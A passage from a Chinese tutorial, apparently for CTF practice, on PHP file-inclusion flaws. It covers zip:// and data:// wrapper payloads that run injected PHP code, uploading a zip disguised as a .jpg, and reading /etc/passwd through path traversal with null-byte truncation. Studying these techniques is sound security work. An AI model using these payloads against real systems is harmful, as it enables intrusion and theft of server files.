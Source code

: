 **使用方法：**

zip://archive.zip#dir/file.txt

zip:// [压缩文件绝对路径]#[压缩文件内的子文件名]

**测试示例：**

http://127.0.0.1/cmd.php?file=zip://D:/soft/phpstudy/www/file.jpg%23phpcode.txt

先将要执行的PHP代码写好文件名为phpcode.txt，将phpcode.txt进行zip压缩,压缩文件名为file.zip,如果可以上传zip文件便直接上传，若不能便将file.zip重命名为file.jpg后在上传，其他几种压缩格式也可以这样操作。

**PS:**由于#在get请求中会将后面的参数忽略所以使用get请求时候应进行url编码为%23，且此处经过测试相对路径是不可行，所以只能用绝对路径。

![6](D:\存储\文章\文件包含与伪协议\image\6.png)

**【data://协议】**

经过测试官方文档上存在一处问题，经过测试PHP版本5.2，5.3，5.5，7.0；data:// 协议是是受限于allow_url_fopen的，官方文档上给出的是NO，所以要使用data://协议需要满足双on条件

**PHP.ini：**

data://协议必须双在on才能正常使用；

allow_url_fopen ：on

allow_url_include：on

参考自：http://php.net/manual/zh/wrappers.data.php, 官方文档上allow_url_fopen应为yes。

![7](D:\存储\文章\文件包含与伪协议\image\7.png)

**测试现象：**

http://127.0.0.1/cmd.php?file=data://text/plain,<?php phpinfo()?>

or

http://127.0.0.1/cmd.php?file=data://test/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

也可以：http://127.0.0.1/cmd.php?file=data:text/plain,<?php phpinfo()?>

or

http://127.0.0.1/cmd.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

**0×03  常规小结：**

PHP封装协议在CTF蛮常见的，是经常会遇到的出题点，如下便是freebuf对本篇涉及的封装协议进行的总结:

![10](D:\存储\文章\文件包含与伪协议\image\10.png)

### 2文件包含漏洞与getshell

#### 2.1本地文件包含

![11](D:\存储\文章\文件包含与伪协议\image\11.png)

如上代码，假设访问对应的 URL 是 http://www.localhost.test/test.php?file=, 当 攻击者提交参数 file 值为“../../etc/passwd”，那么这段代码相当于 include '/home/wwwrun/../../etc/passwd.php'，这个文件显然是不存在的，不过攻击者会想到使 用字符串截断办法来绕过；
PHP 内核是由 C 语言实现的，所以使用了 C 语言中的一些字符串处理函数。比如在连接 字符串时，0 字节（\x00）将作为字符串结束符。所以在这个地方，攻击者只要在最后加入 一个 0 字节，就能截断 file 变量之后的字符串，即参数为：“../../etc/passwd\0”，而 浏览器 URL 并不支持“\”，因此需要通过浏览器访问的时候需要通过 UrlEncode 进行编码， 变成“../../etc/passwd%00”。
